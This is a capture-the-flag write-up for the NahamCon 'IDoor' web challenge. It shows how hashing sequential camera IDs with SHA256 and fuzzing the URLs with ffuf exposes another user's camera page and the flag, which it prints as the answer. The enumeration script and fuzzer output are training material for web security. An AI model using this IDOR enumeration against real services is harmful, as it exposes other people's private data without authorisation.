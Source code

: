 
# Challenge Name: IDoor


![date](https://img.shields.io/badge/date-23.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-50-blue.svg)  

## Description

Author: @JohnHammond#6971  
  
It's Apple's latest innovation, the "iDoor!" ... well, it is basically the Ring Doorbell camera, but the iDoor offers a web-based browser to monitor your camera, and super secure using ultimate cryptography with even SHA256 hashing algorithms to protect customers! Don't even _think_ about snooping on other people's cameras!!  
  
**Press the `Start` button on the top-right to begin this challenge.**

## Detailed solution

Start by checking the challenge URL, we got a redirection to `/4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8`
http://challenge.nahamcon.com:31646/4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8

![Pasted image 20240525182729](https://github.com/BaadMaro/CTF/assets/72421091/3e7c4708-bbb2-4e08-97cd-f0712f2e4bb4)

As we can see we have the ID 11 and the URL identifier `4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8` which is the SHA256 value of 11

We can generate sha256 hashes with numbers to find different camera

```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo "Usage: $0 <input_string>"
  exit 1
fi

python3 -c "
import hashlib
input_string = \"$1\"
sha256_hash = hashlib.sha256(input_string.encode()).hexdigest()
print(sha256_hash)
"
```

```shell
for i in in {0..20}; do bash sha256_bash_python.sh $i; done | ffuf -c -w - -u http://challenge.nahamcon.com:31646/FUZZ          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0
________________________________________________

 :: Method           : GET
 :: URL              : http://challenge.nahamcon.com:31646/FUZZ
 :: Wordlist         : FUZZ: -
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9 [Status: 200, Size: 1797, Words: 634, Lines: 54, Duration: 160ms]
19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7 [Status: 200, Size: 1745, Words: 584, Lines: 52, Duration: 164ms]
6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b [Status: 200, Size: 1766, Words: 584, Lines: 52, Duration: 172ms]
4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 171ms]
7902699be42c8a8e46fbbb4501726517e86b22c56a189f7625a6da49081b2451 [Status: 200, Size: 1795, Words: 584, Lines: 52, Duration: 167ms]
4a44dc15364204a80fe80e9039455cc1608281820fe2b24f1e5233ade6af1dd5 [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 183ms]
ef2d127de37b942baad06145e54b0c619a1f22327b2ebbcfbec78f5564afe39d [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 184ms]
2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3 [Status: 200, Size: 1766, Words: 584, Lines: 52, Duration: 194ms]
4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8 [Status: 200, Size: 3286, Words: 1040, Lines: 73, Duration: 185ms]
4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce [Status: 200, Size: 1780, Words: 584, Lines: 52, Duration: 769ms]
e7f6c011776e8db7cd330b54174fd76f7d0216b612387a5ffcfb81e6f0919683 [Status: 200, Size: 1798, Words: 584, Lines: 52, Duration: 756ms]
d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35 [Status: 200, Size: 1745, Words: 584, Lines: 52, Duration: 848ms]
:: Progress: [22/22] :: Job [1/1] :: 62 req/sec :: Duration: [0:00:01] :: Errors: 0 ::

```

We got a hit with the value `5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9` which is 0

Now let's visit http://challenge.nahamcon.com:31646/5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9

![Pasted image 20240525183537](https://github.com/BaadMaro/CTF/assets/72421091/0a2021eb-6a02-4dce-8820-6ee0b7014b21)

We got our flag

## Flag

```
flag{770a058a80a9bca0a87c3e2ebe1ee9b2}
```

